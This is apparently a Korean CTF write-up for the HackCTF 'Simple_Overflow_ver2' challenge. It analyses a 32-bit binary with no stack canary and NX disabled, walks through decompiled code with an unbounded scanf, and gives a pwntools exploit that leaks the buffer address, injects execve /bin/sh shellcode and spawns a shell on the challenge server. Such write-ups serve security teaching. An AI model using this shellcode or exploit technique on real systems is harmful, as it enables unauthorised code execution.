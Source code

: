 # Simple_Overflow_ver2

```c
kimdong@ubuntu  ~/Wargame  file Simple_overflow_ver_2
Simple_overflow_ver_2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=8225d06464b48b5f4859fb16d8458cf33768f5de, not stripped

kimdong@ubuntu  ~/Wargame  checksec Simple_overflow_ver_2
[*] '/home/kimdong/Wargame/Simple_overflow_ver_2'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x8048000)
   RWX:      Has RWX segments
```
다음 바이너리 파일은 32bit로 `Partial RELRO`외에는 다른 메모리 보호기법이 없다.<br>

```c
kimdong@ubuntu  ~/Wargame  ./Simple_overflow_ver_2
Data : aaaaaaaaaa
0xffc1b890:  a a a a a a a a a a
Again (y/n): y
Data : aaaaaaaa
0xffc1b890:  a a a a a a a a
Again (y/n): n

kimdong@ubuntu  ~/Wargame  ./Simple_overflow_ver_2
Data : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0xfffdfd50:  a a a a a a a a a a a a a a a a
0xfffdfd60:  a a a a a a a a a a a a a a
Again (y/n): n
```
실행시켜보면 `Data : `란 문자열이 출력되면서 사용자의 입력값을 받는다.<br>
입력을 하고 나면, buffer의 주소값과 함께 입력한 값을 출력한다.<br>
16byte가 넘더가게 되면, 다음줄의 주소값이 나타나게 되고, 끄고 다시 실행시키면 매번 주소값이 달라진다.<br>
하지만, y를 선택하고 다시 입력하는 경우에는 주소값이 변하지 않는다.<br>
따라서, 첫번째에 아무 값이나 입력하고 buffer의 주소값을 받아온뒤에 bof취약점을 사용하면 가능할것으로 보인다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) )
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break;
        if ( !(i & 0xF) )
          printf("%p: ", &s[i]);
        printf(" %c", (unsigned __int8)s[i]);
        if ( i % 16 == 15 )
          putchar(10);
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 121 || v5 == 89) );
  return 0;
}
```
ida로 분석한 main문은 다음과 같다.<br>
변수 s buffer의 시작주소는 `ebp-0x88`이다.<br>
따라서, buffer의 shellcode를 채워준 다음에, ret주소를 버퍼의 주소로 해주면 문제가 해결가능할것이다.<br>
dummy값은 `0x88 + 4(SFP) - 25(shellcode)`로 채워주면 된다.<br>

---

## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3006)

p.recvuntil("Data : ")
payload1 = "A"*4
p.sendline(payload1)
buf_addr = int(p.recv(10),16)

p.recvuntil("Again (y/n): ")
p.sendline("y")
p.recvuntil("Data : ")
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
payload2 = shellcode
payload2 += "a"*(0x88+4-25)
payload2 +=p32(buf_addr)
p.sendline(payload2)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python ex_overflow_ver2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3006: Done
[*] Switching to interactive mode
0xffb306f0:  1 󿾠P h / / s h h / b i n \x89 ័
0xffb30700:  S \x89 󿠉  \xb0 \x0bˠ\x80 a a a a a a a
0xffb30710:  a a a a a a a a a a a a a a a a
0xffb30720:  a a a a a a a a a a a a a a a a
0xffb30730:  a a a a a a a a a a a a a a a a
0xffb30740:  a a a a a a a a a a a a a a a a
0xffb30750:  a a a a a a a a a a a a a a a a
0xffb30760:  a a a a a a a a a a a a a a a a
0xffb30770:  \x80
Again (y/n): $ ls
$ ls
flag
main
$ cat flag
HackCTF{}
```

## END !
